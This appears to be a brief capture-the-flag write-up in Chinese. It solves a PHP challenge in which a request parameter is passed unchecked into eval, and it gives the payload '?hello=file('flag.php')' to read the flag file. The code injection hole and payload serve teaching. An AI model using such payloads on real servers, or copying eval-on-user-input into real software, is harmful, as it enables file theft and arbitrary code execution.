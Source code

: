 

```javascript
<?php
    include "flag.php";
    $a = @$_REQUEST['hello'];
    eval( "var_dump($a);");
    show_source(__FILE__);
?>
```



var_dump将输入的东西打印出来，

eval可用来执行函数，

此处可执行file()函数，file()函数将文件读出一个数组中。

而var_dump将其打印出来。

所以payload:

?hello=file('flag.php')